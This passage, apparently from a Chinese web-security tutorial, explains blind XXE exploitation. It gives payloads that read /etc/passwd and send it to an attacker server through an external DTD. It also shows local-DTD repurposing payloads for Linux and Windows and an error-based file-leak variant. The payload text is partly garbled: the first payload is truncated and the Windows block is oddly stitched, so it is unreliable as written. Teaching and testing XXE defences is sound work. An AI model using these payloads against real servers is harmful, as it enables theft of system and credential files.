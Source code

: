 ##### 1.3.3.2、外带利用

通过 XXE 请求控制服务器发出的网络请求，尝试让服务器向我们的VPS发起请求，这样就可以直接在VPS上查看请求的结果。

1、可以引用外部DTD

我们可以使用参数实体，引用外部DTD。

```

Payload
    
    %remote;%int;%send;
    ]&gt;

test.dtd

&lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd"&gt;
&lt;!ENTITY % int "&lt;!ENTITY &amp;#37; send SYSTEM 'http://ip?p=%file;'&gt;"&gt;

```

可以看到在服务器日志上面出现了我们想要的内容。

**整个调用过程：**

这种攻击方式关键在于构造合适的payload，通过连续调用参数实体，将远程服务器上的test.dtd文件包含进来，然后利用%file实体获取服务器上的敏感文件。最后，通过%send实体将读取到的数据发送到远程VPS上。

2、无法引用外部DTD

当目标服务器和攻击者之间存在防火墙，或者网络访问受到限制时，可能无法直接引用外部的DTD文件。在这种情况下，使用本地DTD文件是一个很好的替代方案。

要找到本地的DTD文件，可以进行枚举文件和目录。

Linux

```
&lt;!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"&gt;
    &lt;!ENTITY % ISOamsa 'Your DTD code'&gt;
%local_dtd;

```

Windows

```
&lt;!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd"&gt;
&lt;!ENTITY % SuperClass '&gt;Your DTD code&lt;!ENTITY test "test"'&gt;
%local_dtd;
&lt;?xml version="1.0" ?&gt;

&lt;!ENTITY % condition 'aaa)&gt;
    &lt;!ENTITY &amp;#x25; file SYSTEM "file:///etc/passwd"&gt;
    &lt;!ENTITY &amp;#x25; eval "&lt;!ENTITY &amp;#x26;#x25; error SYSTEM &amp;#x27;file:///nonexistent/&amp;#x25;file;&amp;#x27;&gt;"&gt;
    &amp;#x25;eval;
    &amp;#x25;error;
    &lt;!ELEMENT aa (bb'&gt;
%local_dtd;
]&gt;
&lt;message&gt;any text&lt;/message&gt;

```
